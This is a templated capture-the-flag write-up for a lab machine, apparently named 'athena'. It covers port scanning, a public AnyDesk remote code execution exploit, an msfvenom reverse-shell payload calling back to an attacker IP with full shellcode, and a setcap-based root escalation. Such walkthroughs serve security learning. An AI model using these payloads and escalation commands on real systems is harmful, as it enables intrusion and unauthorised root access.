 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an nmap scan to identify open ports.")}}

{{console("nmap -T5 -p- 10.10.143.23", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-07 23:19 CET
Nmap scan report for 10.10.143.23
Host is up (0.14s latency).
Not shown: 64958 closed tcp ports (conn-refused), 574 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
7070/tcp  open  realserver

Nmap done: 1 IP address (1 host up) scanned in 551.85 seconds")}}

{{text("We find 3 open ports. Let's scan them further.")}}

{{console("nmap -sC -sV -p 22,7070", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-07 23:32 CET
Nmap scan report for 10.10.143.23
Host is up (0.15s latency).

PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.32 seconds")}}

{{text("We now see that the service at port 7070 is a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>AnyDesk Client</code>.")}}

{{text("Unfortunately, we don't know the correct version but we still can blindly test known exploits. Let's search for one.")}}

{{link("https://www.exploit-db.com/exploits/49613", "https://www.exploit-db.com/favicon.ico", "AnyDesk 5.5.2 - Remote Code Execution")}}

{{text("We copy the exploit, but we need to modify it slightly.")}}

{{text("We change the IP to the correct one and edit the shell code by using the command provided.")}}

{{console("msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.6.6 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode", "...
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x1b\xb2\xed"
shellcode += b"\x71\x59\xe1\x69\x44\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x71\x9b\xb5\xe8\x33"
shellcode += b"\xe3\x36\x2e\x1a\xec\xe2\x74\x11\x76\x21\xfd"
shellcode += b"\x19\xb2\xfc\x2d\x53\xe8\x6f\x42\x4a\xfa\x64"
shellcode += b"\x97\x33\xf1\x33\x2e\x31\xea\xe2\x74\x33\xe2"
shellcode += b"\x37\x0c\xe4\x7c\x87\x50\x01\xee\x6c\x31\xed"
shellcode += b"\xd8\xd6\x29\xc0\xa9\xd2\x6b\x79\xdb\x83\x5e"
shellcode += b"\x2a\x89\x69\x17\x53\x3b\x0a\x23\x0e\xa9\xe0"
shellcode += b"\xa2\x14\xb7\xed\x71\x59\xe1\x69\x44"")}}

{{text("We replace the shell code with the one we generated, set up a listener and execute the exploit.")}}

{{text("We should get a connection.")}}

{{image("../../static/writeups/athena/images/000001.jpg")}}

{{header}}

{{text("We list all the files with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> set.")}}

{{console("find / -perm -4000 2>/dev/null", "/sbin/setcap
/bin/mount
/bin/ping
/bin/su
/bin/fusermount
/bin/umount
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
...")}}

{{text("<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/sbin/setcap</code> looked interesting as I haven't seen this file before.")}}

{{text("I found this article that will be helpful to us.")}}

{{link("https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/", "https://www.hackingarticles.in/wp-includes/images/w-logo-blue-white-bg.png", "Linux Privilege Escalation using Capabilities")}}

{{text("Following the article, we have to copy python binary to our home directory and raise our privilages of it using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>setcap</code>.")}}

{{console("", "cp /usr/bin/python3 ~
setcap cap_setuid+ep /home/annie/python3
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
")}}

{{text("After those command, we should become root and be able to read the last flag.")}}

{{image("../../static/writeups/athena/images/000002.jpg")}}
